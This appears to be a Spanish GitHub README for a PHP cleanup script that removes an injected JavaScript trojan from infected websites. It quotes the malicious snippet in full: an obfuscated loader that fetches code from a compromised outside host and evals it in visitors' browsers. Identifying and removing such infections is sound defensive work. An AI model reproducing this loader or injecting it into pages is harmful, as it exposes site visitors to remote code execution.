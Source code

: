 # remove-trojan-js

¿Tú sitio web (wordpress, sitio web general, etc.) se infectó con este fragmento de código (los Javascript)?
```
;if(ndsw===undefined){var ndsw=true,HttpClient=function(){this['get']=function(a,b){var c=new XMLHttpRequest();c['onreadystatechange']=function(){if(c['readyState']==0x4&&c['status']==0xc8)b(c['responseText']);},c['open']('GET',a,!![]),c['send'](null);};},rand=function(){return Math['random']()['toString'](0x24)['substr'](0x2);},token=function(){return rand()+rand();};(function(){var a=navigator,b=document,e=screen,f=window,g=a['userAgent'],h=a['platform'],i=b['cookie'],j=f['location']['hostname'],k=f['location']['protocol'],l=b['referrer'];if(l&&!p(l,j)&&!i){var m=new HttpClient(),o=k+'//unitedfc.com.mx/wp-admin/huge-it-google-map-custom-icons/huge-it-google-map-custom-icons.php?id='+token();m['get'](o,function(r){p(r,'ndsx')&&f['eval'](r);});}function p(r,v){return r['indexOf'](v)!==-0x1;}}());};
```
Si es así sigue estos pasos para limpiarlos: 
* Sube el archivo (remove-trojan-js.php) al servidor
* Cambiar la ruta absoluta desde donde se empezará la limpieza (línea 28 del archivo remove-trojan-js.php)
* Ejecutar el script vía web (https://dominio.com/remove-trojan-js.php) o por la terminal (php remove-trojan-js.php)





**Disclaimer**: ejecutar bajo tu responsabilidad. Siempre realizar una prueba en ambiente controlado (sandbox/desarrollo), antes de aplicarlo a producción.
